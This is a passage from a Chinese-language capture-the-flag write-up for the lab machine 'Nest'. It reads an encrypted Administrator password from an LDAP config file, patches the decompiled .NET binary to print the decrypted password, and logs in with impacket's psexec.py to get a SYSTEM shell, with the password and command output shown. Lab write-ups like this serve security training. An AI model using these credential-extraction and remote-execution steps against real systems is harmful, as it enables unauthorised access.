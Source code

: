 ```cmd
Current Directory: HQK
>setdir LDAP

Current directory set to LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP

>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

使用 showquery 读 Ldap.conf 看到 Administrator 的加密密码，猜想 HqkLdap.exe 是用于解密的，继续逆向

HqkLdap.exe 是一个 .NET 文件，可以使用 dnSpy 反编译

阅读 MainMoudle 代码，发现我们需要2个关键文件：一个 config file 和一个 HqkDbImport.exe 

![Xnip2020-03-08_03-27-59](https://tva1.sinaimg.cn/large/00831rSTgy1gclz40x21oj31ly0u0n4z.jpg)

Config file 之前已经找到了，直接复制一份到 windows 下。但是到处也找不到 HqkDbImport.exe ，查找程序其他部分发现除了这里别的代码中没有再出现 HqkDbImport.exe ，猜想可能不是很重要，我们先在该文件夹下随便新建一个同名文件试试

整个解密过程在方法 CR.RD 中，我们需要在函数 return 前加一句代码使解密的密码输出到控制台

`Console.WriteLine(Encoding.ASCII.GetString(array2, 0, count));`

![image-20200308033142119](https://tva1.sinaimg.cn/large/00831rSTgy1gclz7kh56tj31hs0u0k57.jpg)

点击右下角编译，之后“文件-全部保存”，在 cmd 执行，别忘了把 Ldap.conf 作为第一个参数

`.\HqkLdap_new.exe Ldap.conf`

![image-20200308033636657](https://tva1.sinaimg.cn/large/00831rSTgy1gclzcp59jaj315m0k6wgp.jpg)

得到 Administrator 的密码 Administrator:XtH4nkS4Pl4y1nGX，使用 [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) 登录获得 root.txt

```cmd
root@kali:~/impacket# python '/root/impacket/examples/psexec.py' Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file RnAgLuWd.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service UGxt on 10.10.10.178.....
[*] Starting service UGxt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd C:\users
```
